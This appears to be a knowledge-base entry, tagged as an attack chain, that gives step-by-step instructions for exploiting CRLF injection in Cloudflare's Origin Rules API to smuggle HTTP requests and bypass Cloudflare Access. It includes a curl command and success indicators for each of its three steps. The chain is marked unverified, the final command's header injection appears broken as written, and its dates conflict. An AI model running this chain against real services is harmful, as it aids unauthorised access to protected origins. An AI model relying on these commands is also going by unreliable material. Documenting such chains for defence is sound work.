

---
tags:
  - http-request-smuggling
  - crlf-injection
  - cloudflare
  - api-vulnerability
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-api-request]]'
  - '[[commands/curl-inject-crlf]]'
  - '[[commands/curl-bypass-access]]'
platforms:
  - Cloud (Cloudflare)
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Insufficient-Validation-in-Host-Header-Parameter]]'
  - '[[procedures/Inject-Arbitrary-Headers-Using-CRLF-in-Origin-Rules]]'
  - '[[procedures/Bypass-Security-Controls-via-Request-Smuggling]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack exploiting insufficient input validation in Cloudflare's
  Origin Rules API to inject CRLF characters, enabling HTTP request smuggling
  and bypassing security controls.
skill_level: intermediate
impact_level: high
id: 098f47a7-7907-46d6-a9c7-db9919f6b8f0
created_at: '2025-12-13T09:01:22.281Z'
updated_at: '2025-12-13T09:01:22.281Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# HTTP Request Smuggling via CRLF Injection in Cloudflare Origin Rules API

Multi-stage attack chain demonstrating exploitation of a vulnerability in Cloudflare's Origin Rules API, where insufficient input validation allows CRLF injection in the host_header parameter, leading to HTTP request smuggling and bypassing of security products like Cloudflare Access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Platform: Cloud (Cloudflare)
- Required services/ports: Origin Rules API, Cloudflare Access
- Network access requirements: Access to Cloudflare API endpoints

### Initial Access Requirements

- Credential requirements: Valid Cloudflare API credentials
- Network position: External access to Cloudflare-managed domains
- Prior access needed: Ability to configure or interact with Origin Rules

## Detailed Attack Procedures

### Step 1: Identify Insufficient Validation in Host Header Parameter
procedure: [[procedures/Identify-Insufficient-Validation-in-Host-Header-Parameter]]

**Objective**: Detect the lack of input validation in the host_header action parameter of the Origin Rules API.

**Instructions**: Use [[commands/curl-api-request]] to test the API by sending a request with potential CRLF characters in the host_header parameter:

```bash
curl -X POST 'https://api.cloudflare.com/client/v4/zones/{zone_id}/origin_rules' \
  -H 'Authorization: Bearer {api_token}' \
  -H 'Content-Type: application/json' \
  --data '{"action_parameters": {"host_header": "example.com"}}'
```

Modify the host_header value to include CRLF (\r\n) and observe if it's accepted without validation.

**Expected Output**: API response confirming rule creation without error on CRLF input.

**Success Indicators**:
- API accepts input with CRLF characters
- No validation errors returned

### Step 2: Inject Arbitrary Headers Using CRLF in Origin Rules
procedure: [[procedures/Inject-Arbitrary-Headers-Using-CRLF-in-Origin-Rules]]

**Objective**: Exploit the vulnerability by injecting arbitrary HTTP headers via CRLF characters in the host_header parameter.

**Instructions**: Execute [[commands/curl-inject-crlf]] to create an Origin Rule with injected headers:

```bash
curl -X POST 'https://api.cloudflare.com/client/v4/zones/{zone_id}/origin_rules' \
  -H 'Authorization: Bearer {api_token}' \
  -H 'Content-Type: application/json' \
  --data '{"action_parameters": {"host_header": "example.com\r\nX-Injected-Header: malicious-value"}}'
```

This injects a new header line, enabling request smuggling.

**Expected Output**: Successful rule creation with injected headers visible in subsequent requests.

**Success Indicators**:
- Arbitrary headers appear in smuggled requests
- Request smuggling confirmed via desync

### Step 3: Bypass Security Controls via Request Smuggling
procedure: [[procedures/Bypass-Security-Controls-via-Request-Smuggling]]

**Objective**: Use the smuggled requests to bypass Cloudflare Access and view internal origin server content.

**Instructions**: Send a follow-up request using [[commands/curl-bypass-access]] to exploit the smuggling:

```bash
curl 'https://target.cloudflare-managed-domain.com/' \
  -H 'Host: example.com\r\nX-Forwarded-Host: internal.origin' \
  --data 'smuggled_request_body'
```

This bypasses security and accesses internal content.

**Expected Output**: Response containing internal origin server data.

**Success Indicators**:
- Access to restricted content
- Bypassing of Cloudflare Access controls

## Attack Chain Summary

### Key Achievements

1. Identified and exploited input validation flaw
2. Injected arbitrary headers leading to request smuggling
3. Bypassed security products and accessed internal resources

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
